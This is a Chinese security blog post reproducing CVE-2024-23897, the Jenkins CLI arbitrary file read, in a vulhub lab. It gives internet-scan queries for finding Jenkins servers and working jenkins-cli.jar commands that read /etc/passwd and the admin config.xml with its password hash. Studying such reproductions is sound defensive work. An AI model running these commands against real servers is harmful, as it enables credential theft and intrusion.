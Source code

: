 #  【漏洞复现】CVE-2024-23897 Jenkins 任意文件读取漏洞   
原创 4Zen  划水但不摆烂   2024-01-27 08:00  
  
## 免责声明   
  
文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。  
## 产品简介   
  
Jenkins是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件项目可以进行持续集成。  
## 漏洞描述   
  
Jenkins 有一个内置的命令行界面CLI，在处理 CLI 命令时Jenkins 使用args4j 库解析 Jenkins 控制器上的命令参数和选项。此命令解析器具有一个功能，可以将@参数中后跟文件路径的字符替换为文件内容 ( expandAtFiles)。  
## 影响版本   
```
Jenkins <= 2.441
Jenkins LTS <= 2.426.2

```  
## 网络测绘   
  
favicon图标特征  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwj8icXbXD6ZHIVrblfPYfmWLSvR8Gjp8mO4TKibq8SCN5w1qUszUP0GicNT9hJTYkSr1OK5ia0Z7Zhxw/640?wx_fmt=png&from=appmsg "")  
  
FOFA网络测绘搜索  
```
app="Jenkins"

```  
  
鹰图网络测绘搜索  
```
app.name="Jenkins"

```  
## 漏洞复现   
  
用vulhub搭建一个老版本的Jenkins环境  
```
/vulhub/jenkins/CVE-2018-1000861
docker compose up -d

```  
  
环境启动成功会如下图所示  
  
http://192.168.13.133:8080/![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwj8icXbXD6ZHIVrblfPYfmWDPQMt9JibwqTHWfjTOXEbTeZ6EAytiacV3yXmQP3lMRibn13GHkumwicHA/640?wx_fmt=png&from=appmsg "")  
  
  
根据官方文档，从 Jenkins 控制器的 URL 下载 CLI 客户端 JENKINS_URL/jnlpJars/jenkins-cli.jar  
  
那么我们这里就是http://192.168.13.133:8080/jnlpJars/jenkins-cli.jar  
  
尝试读取/etc/passwd文件  
```
java8 -jar jenkins-cli.jar -s http://192.168.13.133:8080 connect-node "@/etc/passwd"

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwj8icXbXD6ZHIVrblfPYfmWnCnFF3Tno1mduCPStHxnEibeFLNbRtQHK6powREuXlJarmbZDgoZgDw/640?wx_fmt=png&from=appmsg "")  
  
尝试在漏洞环境写入字符串到一个文件中测试读取  
```
docker ps
docker exec -it 容器ID bash
echo "huashui2333" > /tmp/hs.txt

```  
```
java8 -jar jenkins-cli.jar -s http://192.168.13.133:8080 connect-node "@/tmp/hs.txt"

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwj8icXbXD6ZHIVrblfPYfmWOuGBESDibbWS2WBmrL4FLorUeE4yDCTmMTZJYnsTYY8zrwX9ibAof6ibw/640?wx_fmt=png&from=appmsg "")  
  
读取管理员密码Hash解密  
```
java8 -jar jenkins-cli.jar -s http://192.168.13.133:8080 connect-node "@/var/jenkins_home/users/admin/config.xml"

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwj8icXbXD6ZHIVrblfPYfmWejicGUVa0u8FW8wbNARc4XiczQuiaRIzdevJbuYia4JFibMZHH83Fd9p4HA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/fZjIoPoMagwj8icXbXD6ZHIVrblfPYfmW89EEfkAuMdzIOLGQwpqD55D55yRRHTGLxkEOUsqkfvm5C1db6c8uGg/640?wx_fmt=png&from=appmsg "")  
## 思路拓展   
  
jenkins后渗透 - zpchcbd - 博客园(https://www.cnblogs.com/zpchcbd/p/17573272.html)  
## 修复方案   
  
升级至新版本  
  
https://www.jenkins.io/  
  
  
